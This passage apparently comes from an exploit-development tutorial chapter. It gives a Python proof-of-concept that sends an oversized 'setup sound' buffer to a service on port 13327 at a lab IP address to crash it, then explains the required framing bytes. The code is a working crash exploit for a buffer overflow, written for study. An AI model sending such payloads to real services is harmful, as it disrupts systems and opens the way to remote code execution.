 We will use the following [proof-of-concept](./Scripts/Chapter12/poc.py) code that we created based on information from the public exploit

```python
import socket

host = "192.168.190.151"
crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print("[*]Sending evil buffer...")
s.connect((host, 13327))
print(s.recv(1024))
s.send(buffer)
s.close()
print("[*]Payload Sent !")
```

The buffer variable requires specific hex values at the beginning and at the end of it, as well as the "setup sound" string, in order for the application to crash.

Running the script, we can see that the application crashes

![](./img/Chapter12/5.png)

![](./img/Chapter12/6.png)
